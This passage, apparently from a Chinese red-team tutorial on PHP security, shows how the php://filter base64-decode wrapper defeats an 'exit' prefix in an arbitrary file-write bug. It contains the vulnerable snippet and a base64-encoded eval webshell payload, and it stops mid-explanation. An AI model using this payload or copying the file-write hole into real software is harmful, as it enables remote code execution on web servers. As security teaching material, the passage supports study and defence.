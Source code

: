 
假设我们有以下代码
```php
<?php
$content = $_POST['content'];
file_put_contents($_GET['filename'], "<?php exit; ?>".$content);
```

这几行代码允许我们写入文件，但是当我们写入文件的时候会在我们写的字符串前添加 exit 的命令。这样导致我们即使写入了一句话木马，依然是执行不了一句话的。

分析这几行代码，一共需要我们传两个参数，一个是 POST 请求的 content，另一个是 GET 请求的 filename，而对于 GET 请求中的 filename 变量，我们是可以通过 php://filter 伪协议来控制的，在前面有提到，最常见的方法是使用 base64 的方法将 content 解码后传入。

### base64编码绕过

假设我们先随便传入一句话木马：
```
?filename=php://filter/convert.base64-decode/resource=1.php

POSTDATA: content=PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+
```

这个时候我们打开1.php文件：

![](../../../../../assets/img/Security/RedTeam/语言安全/PHP安全/伪协议/1.png)

可以发现里面是一堆乱码，原因是不仅我们的加密后的一句话木马进行了 base64 解码，而且前面的 exit 也进行了解码。

仔细分析一下 exit 的代码：
```php
<?php exit; ?>
```

base64 编码中只包含 64 个可打印字符，而当 PHP 在解码 base64 时，遇到不在其中的字符时，会选择跳过这些字符，将有效的字符重新组成字符串进行解码。

例如：
```php
<?php
$str = "dGVzdA==";
echo base64_decode($str);
?>
```
得到结果：test

如果我们在 str 变量中添加一些不可见的字符或者是不可解码字符（\x00，?）
```php
<?php
$str = "dG?VzdA==";
echo base64_decode($str);
?>
```

得到的结果仍然为：test
